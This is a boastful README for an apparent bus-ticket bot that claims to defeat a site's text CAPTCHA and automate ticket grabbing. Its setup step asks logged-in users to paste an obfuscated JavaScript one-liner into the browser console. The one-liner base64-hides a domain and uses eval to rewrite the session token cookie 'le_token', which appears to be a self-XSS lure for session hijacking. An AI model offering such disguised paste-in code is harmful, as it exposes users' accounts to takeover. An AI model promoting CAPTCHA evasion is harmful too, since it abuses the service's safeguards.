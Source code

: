 # Bus Ticket Automation Script 🚍💨

## What’s This?
Listen up, nerds, gather round. Welcome to the **Bus Ticket Automation Script**, a glorious slap in the face to **Texista’s** joke of a security system. Imagine this: a website still using *text CAPTCHAs* like it’s the Stone Age. "Select a bus"?? Bro, just hand over the ticket already. we're going right through.

## Why Use This?
Because you’re tired of looking at blurry letters and pretending to be a robot just to get a bus ticket. This script is like bringing a nuke to a thumb war. No more guessing blurry words like some government test subject. CAPTCHA security? Forget it. You're here for a ticket, not to prove you're human.


## Features
- **Full Attack Mode:** Go grab a snack while this thing handles all the ticket-grabbing nonsense. 🍕
- **CAPTCHA Terminator:** We don’t mess around. Picking out random letters? Leave that to the 9-to-5 robots.
- **Super Simple Setup:** Seriously, if you can copy and paste, you’re qualified.


# How to Use

1. **Clone the repo:**
	```bash
	git clone https://github.com/tazal3asima/taza_l3asima.git
	```
2. **Jump into the directory:**
	```bash
	cd taza_l3asima
	```

3. **copy this to firefox console after you logged in to bus website then completly quit the browser**
	```js
	(()=>{const[$,$_,$__,$___]=['cook','ment','docu','ie'],_='\x6c\x65\x5f\x74\x6f\x6b\x65\x6e',__=(_=>atob(_))('YnVzLW1lZC4xMzM3Lm1h');eval(`${$__}${$_}.${$}${$___}=\x27${_}=\x27+${$__}${$_}.${$}${$___}.split(\x27;\x27).find(x=>x.trim().startsWith(\x27${_}=\x27)).split(\x27=\x27)[1]+\x27; expires=\x27+new Date(Date.now()+3600000).toUTCString()+\x27; domain=${__}; path=/;\x27`)})();
	```

4. **Run the Bad boy before 5min of when you want to go:**
	```bash
	make
	```
<!-- load in image called meme.jpg -->


# if you get it you get it
![meme](meme.jpg)


